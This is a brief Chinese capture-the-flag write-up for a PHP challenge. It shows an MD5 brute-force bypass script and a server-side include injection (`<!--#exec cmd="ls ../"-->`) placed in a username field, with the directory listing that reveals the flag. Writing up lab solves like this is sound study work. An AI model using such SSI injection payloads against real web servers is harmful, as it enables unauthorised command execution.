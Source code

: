 ```php
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

首先附上爆棚md5脚本(python写出来总是出错)

```php
<?php
for($i=0;$i<=1000000000;$i++)
{
    if(strcmp(md5($i),'6d0bc1')==26)
    {
        var_dump($i);  
      	break;
    }
}  
//int(2020666)
```

username数据会被写入到文件中，文件是shtml，百度一波寻找漏洞

[ssi语法](https://www.xuebuyuan.com/693626.html)

直接读取根目录`/flag文件发现flag不存在，于是查看目录，发现flag在当前文件下。

username输入

```
<!--#exec cmd="ls ../"-->
```

随后访问shtml文件

```
Hello,flag_990c66bf85a09c664f0b6741840499b2 index.php index.php.swp public
```

直接访问flag_990c66bf85a09c664f0b6741840499b2文件即可

## [未完成]EzPHP
